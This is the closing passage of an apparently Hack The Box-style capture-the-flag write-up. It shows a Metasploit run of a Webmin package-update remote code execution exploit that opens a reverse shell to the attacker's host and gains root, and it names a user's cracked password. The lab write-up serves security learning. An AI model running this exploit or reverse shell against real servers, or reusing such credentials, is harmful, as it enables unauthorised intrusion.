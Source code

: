```
msf5 exploit(linux/http/webmin_packageup_rce) > exploit

[*] Started reverse TCP handler on 10.10.14.13:4444
[+] Session cookie: 93a0b7c6234b1354928550dc12865af2
[*] Attempting to execute the payload...
[*] Command shell session 2 opened (10.10.14.13:4444 -> 10.10.10.160:43526) at 2019-12-08 12:58:17 +0000
id
uid=0(root) gid=0(root) groups=0(root)
```

... and the root flag is secured.

If there is anything to be learnt here, it is to never use Redis as an open service to the internet, and to always make sure your users do not reuse their passwords. Especially not if they're as crappy as `computer2008`. Often times users are not doing this because they're stupid, but rather because they lack vital security education. So let's not rant too much about Matt and hope his employer is going to send him to some nice workshops to get him up to speed. :)
